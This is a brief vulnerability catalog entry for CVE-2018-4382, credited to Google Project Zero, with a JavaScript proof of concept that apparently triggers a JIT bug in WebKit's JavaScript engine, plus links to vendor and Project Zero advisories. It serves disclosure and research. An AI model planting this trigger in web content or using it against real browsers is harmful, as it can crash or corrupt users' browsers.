 # CVE-2018-4382

- Report: Nov 2018
- Fix: Nov 2018
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
Array.prototype.__defineGetter__('a', Array.prototype.push);

function opt() {
    let arr = new Array(1, 2, 3, 4);
    arr['a' + ''];
}

for (let i = 0; i < 1000; i++) {
    opt();
}
```

## Reference

- [Apple](https://support.apple.com/en-us/HT209195)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1656)
